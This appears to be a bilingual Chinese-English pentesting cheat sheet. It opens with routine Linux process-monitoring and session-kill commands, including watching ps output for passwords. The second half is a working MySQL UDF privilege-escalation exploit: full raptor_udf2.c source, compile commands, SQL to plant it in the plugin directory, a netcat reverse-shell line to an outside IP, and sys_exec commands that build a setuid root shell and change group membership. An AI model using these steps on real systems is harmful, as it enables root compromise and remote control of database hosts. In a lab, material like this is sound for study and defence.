 ### Proc
```bash
top
htop

ps -A #all
ps -axjf #树形结构显示进程
ps aux | grep root
ps aux | more
ps aux | less

pgrep <process-name>

#watach
watch -n 1 "ps -aux | grep pass"   #watch -n 1每秒重复执行ps命令
# 刷新还挺快，记得准备保存
script -c "watch -n 1 'ps -aux | grep pass'" output.txt #保存所有会话
cat --show-all output.txt #--show-all才可以看到
watch -n 1 "ps -aux | grep pass" | tee --append output

#best
watch -n 1 'ps -aux | grep pass | tee --append output'
```
[无需root的进程实时监控 -- pspy](https://github.com/DominicBreuker/pspy?tab=readme-ov-file)

# Terminating Proc
```bash
kill
kill -9 PID
pkill processName
killall
```
### Kill user tty/pts sessions in Linux

#### Commands

- `w`: show who is logged on and what they are doing
- `who`: show who is logged on
- `tty`: show current users pseudo terminal
- `ps -ft pts/1`: get process id for the pseudo terminal
- `pkill`: signal process based on name and other attributes

1. Check active users logged into the server with: `w`
```bash
 16:53:37 up 23:46,  2 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
debian   pts/1    24.69.132.96     16:45    0.00s  0.04s  0.00s w
debain   pts/2    24.69.132.96:S.0 16:35   16.00s  0.02s  0.02s /bin/bash
```
2. Get the PID (Process ID) of a connected terminal (tty) with: `ps -ft pts/1`

```bash
UID        PID  PPID  C STIME TTY          TIME CMD
debian   28580 28102  0 16:45 pts/1    00:00:00 -bash
debian   29081 28580  0 16:55 pts/1    00:00:00 ps -ft pts/1
```

3. Kill the process: `kill 28580`
4. Alternatively use `pkill -t pts/1`

# Exploit
## mysql UDF提权
> mysql User Defined Functions
> 相对来说还是需要有mysql的根权限账户才可以，否则无法在插件目录或者在mysql数据库中进行建表导出文件的操作。
### UDF
UDF可以是任意语言所写，只要放入`library`即可使用。我们可以创建恶意函数，在底层操作系统上运行与正在运行的服务具有相同权限的命令。
```C
//raptor_udf2.c
#include <stdio.h>
#include <stdlib.h>
 
enum Item_result {STRING_RESULT, REAL_RESULT, INT_RESULT, ROW_RESULT};
 
typedef struct st_udf_args {
        unsigned int arg_count; // number of arguments
        enum Item_result *arg_type; // pointer to item_result
        char **args; // pointer to arguments
        unsigned long *lengths; // length of string args
        char *maybe_null; // 1 for maybe_null args
} UDF_ARGS;
 
typedef struct st_udf_init {
        char maybe_null; // 1 if func can return NULL
        unsigned int decimals; // for real functions
        unsigned long max_length; // for string functions
        char *ptr; // free ptr for func data
        char const_item; // 0 if result is constant
} UDF_INIT;
 
int do_system(UDF_INIT *initid, UDF_ARGS *args, char *is_null, char *error) {
        if (args->arg_count != 1) {
                return(0);
        }
        system(args->args[0]);
        return(0);
}
 
char do_system_init(UDF_INIT *initid, UDF_ARGS *args, char *message) {
        return(0);
}
```
#### 编译
```bash
gcc -g -c raptor_udf2.c
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```
### Exploit
```mysql
#login as root
show variables like '%plugin%'; #找到UDF的文件路径
show variables like '%secure_file_priv%'; #UDF文件可否修改导入导出(empty|NULL)
use mysql; #在mysql数据库中导入恶意payload
create table foo(line blob); #放置payload的table foo
insert into foo values(load_file('/var/www/raptor_udf2.so'));
#将恶意代码文件导入到table foo中, **此处需要plugin文件夹的读写权限**
select * from foo into dumpfile '<plugin_path>raptor_udf2.so';
#将table foo payload放到UDF dir
create function do_system returns integer soname 'raptor_udf2.so';
#利用该文件，创建UDF

select * from mysql.func; #确认函数已经导入
select do_system('id > /var/www/output; chown www-data www-data /var/www/output'); #开始利用
mysql> \! sh          #检查是否提权成功
\! sh
$ cat /var/www/out
cat /var/www/out
uid=0(root) gid=114(mysql) groups=114(mysql)

select do_system('nc 192.168.49.136 8080 -e /bin/bash'); #回弹shell
```
### 修改当前用户的权限
```bash
ls -la /usr/lib/lib_mysqludf_sys.so #查看sys相关的UDF
SELECT sys_exec('usermod -a -G admin john') #-a:添加组时，不移除当前组 -G:添加组
#利用moduser修改当前用户的权限

SELECT * FROM func;
use mysql;
create function sys_exec returns integer soname 'lib_mysqludf_sys.so';
select sys exec('cp /bin/sh /tmp/shell;chown root /tmp/shell;chgrp root /tmp/shell;chmod u+s /tmp/shell');
#自行导入
```